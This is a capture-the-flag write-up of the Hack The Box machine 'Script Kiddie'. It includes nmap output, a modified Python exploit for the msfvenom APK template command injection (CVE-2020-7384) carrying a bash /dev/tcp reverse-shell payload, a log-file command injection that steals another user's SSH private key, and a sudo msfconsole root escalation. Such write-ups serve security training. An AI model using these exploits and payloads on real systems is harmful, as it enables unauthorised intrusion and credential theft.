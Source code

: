 #+TITLE: Script Kiddie
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

* Enumeration

As usual, we start with an Nmap scan:

#+BEGIN_SRC
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET
$ nmap -sC -sV -p1-65535 -oN nmapresult.txt 10.129.74.36
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 20:32 WET
Nmap scan report for 10.129.74.36
Host is up (0.046s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.20 seconds
#+END_SRC

We can clearly see that there is an HTTP server running in port =5000=.
Going to the website (=10.129.75.138:5000=), we see this page:

[[./images/img1.jpg]]

Messing around with the website, we can scan the top 100 ports of a specific IP
address, we can also generate =msfvenom= binaries and we can search exploits.

There are some timesinks here, one of them being command injection checking on
all three available fields. I did waste many hours because of it.

But let us not forget about the commands that are running server-side.
From the website, we know that the server is running =nmap=, =msfvenom= and
=searchsploit=.

* User Flag

Using the =searchsploit= utility from the website, we can search =nmap= or
=msfvenom= exploits. =Nmap= has a couple exploits, but =msfvenom= has one that
is very recent, January 2021: https://www.exploit-db.com/exploits/49491.

It seems that we can use an Android APK template to make =msfvenom= execute
arbitrary code when it is generating the binary.

We’ll use the above python script, but in our case, we want a payload for a
reverse shell: =/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1"=.
We just replace it in the script and run it. But it will error out, because
there seems to be a problem when using =keytool= and having =+= characters in
=dname=.
Script customization is needed. In this case, after getting the result base64,
we’ll convert the string to an hex string and we also change the dname variable
so it converts from hex string to base64 and then decode the base64 and then
execute the resulting string.

This is the script after the changes:

#+BEGIN_SRC python :eval no
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
#payload = 'echo "Code execution as $(id)" > /tmp/win'
payload = '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.210/1337 0>&1"'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
payload_hex = "".join("{:02x}".format(ord(c)) for c in payload_b64)

#dname = f"CN='|echo {payload_b64} | base64 -d | sh #"
dname = f"CN='|echo {payload_hex} | xxd -r -p | base64 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
#+END_SRC

All we have to do now is run the script and upload the result APK to the
website:

[[./images/img2.jpg]]

When we get the reverse shell, we can see that there is a =id_rsa= file in the
=.ssh= directory, we get the contents of the file and we use it to ssh into the
user =kid=:

[[./images/img3.jpg]]

In =kid= home directory, we can get the =user.txt= flag.

* Root Flag

There are some rabbit holes we can get into. We can rapidly see that there is an
odd file (=/home/kid/logs/hackers=).
The file is referenced in the websites’ =app.py= file:

#+BEGIN_SRC python
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
#+END_SRC

So, if we use special characters in the prompt, it will write current date and
our IP to =/home/kid/logs/hackers=. For the sake of brevity, we are
going to upload =pspy64= to the machine and run it. Now, in the website, if we
use the =searchsploit= textfield with a special character (e.g.: =test;=), we
can clearly see what commands are executed on the server:

[[./images/img4.jpg]]

Everytime the above happens, it seems =/home/pwn/scanlosers.sh= is executed.
We can peek into that file:

#+BEGIN_SRC bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
#+END_SRC

This file gets =/home/kid/logs/hackers=, does a cut by space character, gets
everything from the third free onwards and executes nmap. After that, it cleans
the log file.
From here, we can inject commands into =/home/kid/logs/hackers= for user =pwn=
to execute! But we have to be smart about it. We can continue using =pspy64= to
check what is executed and to do some trial and error. My initial idea was to
get the =id_rsa= from user =pwn=. All I had to do was run this command:

#+begin_src
$ echo ";a; a; ;cat .ssh/id_rsa > test;" > logs/hackers
#+end_src

I did insert enough whitespaces because of =cut -d’ ‘ -f3-= part. Then the
command I wanted to execute (print =id_rsa= and redirect output to =test= file
and then redirect everything to =/home/kid/logs/hackers=).

[[./images/img5.jpg]]

We get the result and save a new =id_rsa= in our computer and =ssh= into =pwn=.

[[./images/img6.jpg]]

Something that should be done right away is check if =pwn= user can run some
commands as superuser!

#+begin_src
$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
#+end_src

It is possible to execute =msfconsole= as superuser. We can also run
normal bash commands through msfconsole. Therefore, we just execute =bash= and
we get a shell session with root permissions.

[[./images/img7.jpg]]

Navigation to =root= home directory is required and then we have =root.txt= to
get the root flag.

#+BEGIN_EXPORT html
<hr>
<footer>
<p><a class="footer" href="/index.html">Homepage</a></p>
<p><a class="footer" href="htb/index.html">Back</a></p>
</footer>
#+END_EXPORT
